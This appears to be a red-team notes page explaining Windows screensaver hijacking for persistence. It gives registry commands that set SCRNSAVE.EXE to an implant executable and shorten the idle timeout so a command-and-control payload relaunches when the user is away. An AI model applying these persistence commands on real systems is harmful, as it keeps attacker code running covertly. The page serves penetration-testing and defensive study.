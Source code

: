 # Screensavers Hijack

#### Screensavers are part of Windows functionality and enable users to put a screen message or a graphic animation after a period of inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence.

#### &#x20;This is because screensavers are executable files that have the `.scr` file extension and are executed via the `scrnsave.scr` utility.

{% hint style="warning" %}
#### This will not work in systems that don't have screensaver activated or in AD environments where the screensaver is manager by domain group policies.
{% endhint %}

Screensaver settings are stored in the registry and the values that are considered most valuable from an offensive perspective are:

```
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
```

Registry keys can be modified or added via the command prompt or from a PowerShell console. Since the .scr files are essentially executables both extensions can be used to the file that will act as the implant

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.exe
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.scr
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.exe'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.scr'
```

Once the period of inactivity is passed the arbitrary payload will executed and a communication will the command and control will established again.

another thing to consider is the timeout when setting the registry key.

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "c:\rto\pers\implant\implant.exe" /f
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "60" /f
```

{% hint style="info" %}
The issue with the persistence technique that utilize screensavers is that the session will drop when the user returns back and the system is not in idle mode. However red teams can perform their operations during the absence of the user. If screensavers are disabled by group policy this technique cannot be used for persistence.
{% endhint %}
